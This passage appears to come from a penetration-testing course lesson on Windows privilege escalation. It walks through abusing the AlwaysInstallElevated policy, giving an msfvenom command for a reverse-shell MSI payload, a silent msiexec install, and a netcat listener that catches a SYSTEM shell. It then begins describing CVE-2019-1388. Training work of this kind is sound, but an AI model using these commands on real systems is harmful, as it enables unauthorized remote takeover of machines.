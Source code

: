 Our enumeration shows us that the `AlwaysInstallElevated` key exists, so the policy is indeed enabled on the target system.

### **Generating MSI Package**

We can exploit this by generating a malicious `MSI` package and execute it via the command line to obtain a reverse shell with SYSTEM privileges.

```shell-session
$ msfvenom -p windows/shell_reverse_tcp lhost=10.10.14.3 lport=9443 -f msi > aie.msi

[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x86 from the payload
No encoder specified, outputting raw payload
Payload size: 324 bytes
Final size of msi file: 159744 bytes
```

### **Executing MSI Package**

We can upload this MSI file to our target, start a Netcat listener and execute the file from the command line like so:

```cmd-session
C:\htb> msiexec /i c:\users\htb-student\desktop\aie.msi /quiet /qn /norestart
```

### **Catching Shell**

If all goes to plan, we will receive a connection back as `NT AUTHORITY\SYSTEM`.

```shell-session
$ nc -lnvp 9443

listening on [any] 9443 ...
connect to [10.10.14.3] from (UNKNOWN) [10.129.43.33] 49720
Microsoft Windows [Version 10.0.18363.592]
(c) 2019 Microsoft Corporation. All rights reserved.

C:\Windows\system32>whoami

whoami
nt authority\system
```

This issue can be mitigated by disabling the two Local Group Policy settings mentioned above.

***

## CVE-2019-1388

[CVE-2019-1388](https://nvd.nist.gov/vuln/detail/CVE-2019-1388) was a privilege escalation vulnerability in the Windows Certificate Dialog, which did not properly enforce user privileges. The issue was in the UAC mechanism, which presented an option to show information about an executable's certificate, opening the Windows certificate dialog when a user clicks the link. The `Issued By` field in the General tab is rendered as a hyperlink if the binary is signed with a certificate that has Object Identifier (OID) `1.3.6.1.4.1.311.2.1.10`. This OID value is identified in the [wintrust.h](https://docs.microsoft.com/en-us/windows/win32/api/wintrust/) header as [SPC\_SP\_AGENCY\_INFO\_OBJID](https://docs.microsoft.com/en-us/windows/win32/api/wincrypt/nf-wincrypt-cryptformatobject) which is the `SpcSpAgencyInfo` field in the details tab of the certificate dialog. If it is present, a hyperlink included in the field will render in the General tab. This vulnerability can be exploited easily using an old Microsoft-signed executable ([hhupd.exe](https://packetstormsecurity.com/files/14437/hhupd.exe.html)) that contains a certificate with the `SpcSpAgencyInfo` field populated with a hyperlink.
